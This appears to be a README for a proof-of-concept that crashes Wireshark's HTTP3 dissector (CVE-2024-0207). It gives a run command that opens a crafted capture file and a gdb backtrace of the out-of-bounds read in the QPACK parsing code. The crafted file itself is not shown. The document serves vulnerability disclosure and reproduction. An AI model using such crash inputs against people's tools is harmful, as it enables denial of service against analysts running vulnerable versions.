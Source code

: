 # Wireshark HTTP3 Dissector Crash PoC (CVE-2024-0207)

## POC URL
This proof-of-concept demonstrates the HTTP3 dissector crash vulnerability in Wireshark (CVE-2024-0207, wnpa-sec-2024-03).

## Compilation Environment
- Python 3.x
- Wireshark version 4.2.0 or earlier (vulnerable versions)

## Run Command
```
wireshark http3_crash.pcapng
```

## Expected Output
See backtrace:

#0  0x00007ffff01dbd64 in read_qpack_prefixed_integer
    (buf=0x555569513b7e <error: Cannot access memory at address 0x555569513b7e>, end=0x5555595ede82 "\324\316\301W\236\333\367\226\212\357\036\37183y3\343ǈ\257\367\305\332\373\376e\374\256\376Wvf\361\273\321<W{\037/=\353[\267\036{ɓl\375\370j\277\245iݽ\231\303\361Yfsg\254\375.\356\351\r\2158Hg\353\253a^\026<Q\356k6\315\356\271\t^\nszX\235\371\351\346\337|\375\372sfK\263\332·:=\207=\373\334y\311\315\f\340s\272:\344Y\311I\373\256,=\315u\343a\355\243\205Z\364\372\323\vzK\b4\356\311\371\222nm\343\375\361\372,\357\327\373\232z7Ù\0344\264\325\362\335g\177\355\245\353߯\357\346\257Ӣ\317<\261\307\333\302\033\275/|\263\367-\024k\212/"..., prefix=7, out_result=0x7fffffffb3f8, out_fin=0x7fffffffb39c, out_flag=0x7fffffffb3a4) at /home/dexter/wireshark/wireshark/epan/dissectors/packet-http3.c:1455
#1  0x00007ffff01dc351 in dissect_http3_qpack_encoder_stream
    (tvb=0x5555599f0db0, pinfo=0x7fffffffd708, tree=0x0, offset=0, qpack_buf=0x5555595edce0 "CUD\235\265j\323\034)\362*\337σ\3603_\301\247l\361\373\303\371\307\312Y\335\343\307\3422\365\323\324T\321\323\r\335Na\247g\345\363^\323{\221\272\006\321n\323?\215\372\371?\205\261\247K~/C\277~\3751]\177\213iw\214Z{\335x\334\034", remaining=418, http3_stream=0x555558df5e80) at /home/dexter/wireshark/wireshark/epan/dissectors/packet-http3.c:1626
#2  0x00007ffff01dc8f9 in dissect_http3_qpack_enc (tvb=0x5555599f0db0, pinfo=0x7fffffffd708, tree=0x0, offset=0, stream_info=0x7fffffffb9f0, http3_stream=0x555558df5e80)
    at /home/dexter/wireshark/wireshark/epan/dissectors/packet-http3.c:1730
#3  0x00007ffff01dce8b in dissect_http3_uni_stream (tvb=0x5555599f0db0, pinfo=0x7fffffffd708, tree=0x0, offset=0, stream_info=0x7fffffffb9f0, http3_stream=0x555558df5e80)
    at /home/dexter/wireshark/wireshark/epan/dissectors/packet-http3.c:1847
#4  0x00007ffff01dd192 in dissect_http3 (tvb=0x5555599f0db0, pinfo=0x7fffffffd708, tree=0x0, data=0x7fffffffb9f0) at /home/dexter/wireshark/wireshark/epan/dissectors/packet-http3.c:1937
#5  0x00007ffff166e9d8 in call_dissector_through_handle (handle=0x5555579417d0, tvb=0x5555599f0db0, pinfo=0x7fffffffd708, tree=0x0, data=0x7fffffffb9f0) at /home/dexter/wireshark/wireshark/epan/packet.c:857
#6  0x00007ffff166ec14 in call_dissector_work (handle=0x5555579417d0, tvb=0x5555599f0db0, pinfo=0x7fffffffd708, tree=0x0, add_proto_name=1, data=0x7fffffffb9f0) at /home/dexter/wireshark/wireshark/epan/packet.c:948
#7  0x00007ffff1673398 in call_dissector_only (handle=0x5555579417d0, tvb=0x5555599f0db0, pinfo=0x7fffffffd708, tree=0x0, data=0x7fffffffb9f0) at /home/dexter/wireshark/wireshark/epan/packet.c:3487
#8  0x00007ffff16733db in call_dissector_with_data (handle=0x5555579417d0, tvb=0x5555599f0db0, pinfo=0x7fffffffd708, tree=0x0, data=0x7fffffffb9f0) at /home/dexter/wireshark/wireshark/epan/packet.c:3500
#9  0x00007ffff0729642 in process_quic_stream (tvb=0x5555599f0e90, offset=6, pinfo=0x7fffffffd708, tree=0x0, quic_info=0x555558df1350, stream_info=0x7fffffffb9f0) at /home/dexter/wireshark/wireshark/epan/dissectors/packet-quic.c:1474
#10 0x00007ffff07299ba in desegment_quic_stream (tvb=0x5555599f0e90, offset=6, length=418, pinfo=0x7fffffffd708, tree=0x0, quic_info=0x555558df1350, stream_info=0x7fffffffb9f0, stream=0x555558df5de0)
    at /home/dexter/wireshark/wireshark/epan/dissectors/packet-quic.c:1624